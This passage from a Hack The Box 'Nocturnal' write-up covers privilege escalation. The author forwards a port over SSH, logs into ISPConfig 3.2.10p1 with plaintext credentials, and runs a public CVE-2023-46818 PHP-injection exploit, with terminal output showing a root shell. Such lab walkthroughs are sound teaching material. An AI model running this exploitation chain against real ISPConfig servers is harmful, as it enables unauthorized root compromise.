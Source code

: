 Port 8080 is listening locally, let's forward it and check what it has.

```bash
ssh tobias@nocturnal.htb -L 8000:127.0.0.1:8080
```

![web](14.png)

We got a login page, I managed to login with `admin:slowmotionapocalypse`

![logged](15.png)

Going to the help page we find the version of the website `ISPConfig Version: 3.2.10p1`

A quick search on google we find it's vulnerable to php code injection [CVE-2023-46818](https://nvd.nist.gov/vuln/detail/CVE-2023-46818)

We can also find an exploit on github <https://github.com/bipbopbup/CVE-2023-46818-python-exploit>

Let's clone the repo an run the exploit.

```terminal
┌──[10.10.16.83]-[sirius💀parrot]-[25-08-16 21:50]-[~/ctf/htb/noc/CVE-2023-46818-python-exploit]
└──╼[★]$ python exploit.py http://127.0.0.1:8888 'admin' 'slowmotionapocalypse'                 
[+] Target URL: http://127.0.0.1:8888/
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Injecting shell
[+] Launching shell
                                               
ispconfig-shell# whoami
root

```

We got root!

## **References**

<https://nvd.nist.gov/vuln/detail/CVE-2023-46818>

<https://github.com/bipbopbup/CVE-2023-46818-python-exploit>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

